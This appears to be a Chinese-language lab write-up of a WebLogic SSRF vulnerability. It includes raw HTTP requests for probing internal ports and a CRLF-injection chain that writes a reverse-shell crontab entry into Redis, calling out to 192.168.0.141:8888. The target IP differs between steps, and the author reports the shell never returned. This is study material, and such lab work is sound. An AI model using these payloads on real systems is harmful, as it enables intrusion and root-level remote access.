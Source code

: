 # Weblogic SSRF漏洞

###### by ADummy

### 0x00利用路线

​			burpsuite发包--->命令执行

### 0x01漏洞介绍			

​			Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。

##### 影响版本

```
10.3.6.0
12.1.3.0.0
12.2.1.1.0
```

### 0x02漏洞复现

访问`http://your-ip:7001/uddiexplorer/`，无需登录即可查看uddiexplorer应用。

SSRF漏洞存在于`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`，我们在brupsuite下测试该漏洞。访问一个可以访问的IP:PORT，如`http://127.0.0.1:80`：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回`did not have a valid SOAP content-type`。

![Weblogic_SSRF漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Weblogic_SSRF漏洞_1.jpg)

通过错误的不同，即可探测内网状态。

![Weblogic_SSRF漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Weblogic_SSRF漏洞_2.jpg)

## 注入HTTP头，利用Redis反弹shell

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

首先，通过ssrf探测内网中的redis服务器（docker环境的网段一般是172.*），发现`172.18.0.2:6379`可以连通：

![Weblogic_SSRF漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Weblogic_SSRF漏洞_3.jpg)

发送三条redis命令，将弹shell脚本写入`/etc/crontab`：

```
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/192.168.0.141/8888 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

进行url编码：

```
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.141%2F8888%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0Aconfig%20set%20dir%20%2Fetc%2F%0Aconfig%20set%20dbfilename%20crontab%0Asave
```

注意，换行符是“\r\n”，也就是“%0D%0A”。

将url编码后的字符串放在ssrf的域名后面，发送：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.141%2F8888%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0Aconfig%20set%20dir%20%2Fetc%2F%0Aconfig%20set%20dbfilename%20crontab%0Asave HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

不知道为啥一直没弹回来。